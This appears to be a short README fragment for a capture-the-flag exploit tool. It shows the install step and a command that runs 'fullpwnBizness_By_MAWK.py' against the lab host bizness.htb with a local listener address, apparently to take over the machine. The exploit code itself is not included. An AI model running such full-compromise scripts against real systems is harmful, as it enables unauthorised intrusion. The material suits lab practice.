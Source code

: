

pip install -r requirements.txt


Python3 fullpwnBizness_By_MAWK.py https://bizness.htb/ <LHOST>  